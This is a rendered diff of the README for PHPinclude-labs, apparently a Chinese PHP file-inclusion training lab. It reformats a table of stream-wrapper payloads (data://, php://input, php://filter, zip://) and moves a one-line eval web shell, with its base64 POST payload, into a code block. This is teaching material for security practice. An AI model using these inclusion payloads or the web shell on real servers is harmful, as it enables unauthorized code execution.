

Before and after one commit to ProbiusOfficial/PHPinclude-labs, a Markdown page: README.md, 2 parts joined by grey strips. Shown: that part at 90% size. Rendered like a GitHub page.

````diff
--- a/README.md
+++ b/README.md
@@ -69,16 +69,16 @@ if (isset($_GET["wrappers"])) {
 
 Level 1 ~ Level 9 为协议部分的知识关卡，这部分在PHP手册也叫封装协议 - [【PHP手册 - 支持的协议和封装协议(wrappers)】](https://www.php.net/manual/zh/wrappers.php)
 
-| 协议名称 | 功能 | 依赖 | 示例 |
-| -------- | ---- | ---- | ---- |
-| `file://` | 访问本地文件系统 |**无**|`file:///flag`|
-| `data://` | 数据（RFC 2397） |`allow_url_fopen`:**On**<br /> `allow_url_include` :**On**|`data://text/plain,<?php phpinfo();?>`<br /> `data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+`|
-| `http://` | 访问 HTTP(s) 网址 |`allow_url_fopen`:**On**<br /> `allow_url_include` :**On**|`https://raw.githubusercontent.com/ProbiusOfficial/PHPinclude-labs/main/RFI`|
-| `php://` | 访问各个输入/输出流（I/O streams） | 基于参数 |`php://xxx`|
-| `php://input` | 访问请求的原始数据的只读流（RAW模式下POST中的DATA数据块） | `allow_url_include` :**On** |`php://input` + [POST DATA部分]|
-| `php://filter` | 用于数据流打开时的筛选过滤应用 | **无** |`php://filter/x=A\|B\|C\|/resouce=xxx`|
-| `zlib:// bzip2:// zip://` | 压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，支持任意后缀。 |**无**|?|
-| `phar://` | PHP 归档 |？|？|
+| 协议名称                           | 功能                                                         | `allow_url_fopen` | `allow_url_include` | 示例                                                         |
+| ---------------------------------- | ------------------------------------------------------------ | ----------------- | ------------------- | ------------------------------------------------------------ |
+| `file://`                          | 访问本地文件系统                                             | **Off/On**        | **无**              | `file:///flag`                                               |
+| `data://`                          | 数据（RFC 2397）                                             | **On**            | **On**              | `data://text/plain,<?php phpinfo();?>`<br /> `data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+` |
+| `http://`                          | 访问 HTTP(s) 网址                                            | **On**            | **On**              | `https://raw.githubusercontent.com/ProbiusOfficial/PHPinclude-labs/main/RFI` |
+| `php://`                           | 访问各个输入/输出流（I/O streams）                           | **Off/On**        | 基于参数            | `php://xxx`                                                  |
+| `php://input`                      | 访问请求的原始数据的只读流（RAW模式下POST中的DATA数据块）    | **Off/On**        | **On**              | `php://input` + [POST DATA部分]                              |
+| `php://filter`                     | 用于数据流打开时的筛选过滤应用                               | **Off/On**        | **Off/On**          | `php://filter/x=A\|B\|C\|/resouce=xxx`                       |
+| `zlib:// compress.bzip2:// zip://` | 压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，支持任意后缀。 | **Off/On**        | **Off/On**          | `zip://[压缩文件绝对路径]#[压缩文件内的子文件名]`<br />`compress.zlib://file.gz` <br />`compress.bzip2://file.bz2` |
+| `phar://`                          | PHP 归档                                                     |                   | ？                  | ？                                                           |
 
 协议的介绍请跟进每个关卡中注释引导部分。
 
@@ -291,7 +291,9 @@ Payload：
 
 **POST**：`data=PD9waHAgZXZhbCgkX1BPU1RbJ2hlbGwnXSk7Pz4`
 
-（backdoor.php : <?php eval($_POST['hell']);?>）
+```php
+backdoor.php : <?php eval($_POST['hell']);?>
+```
 
 ### Level 11- 封装协议解析
 
````
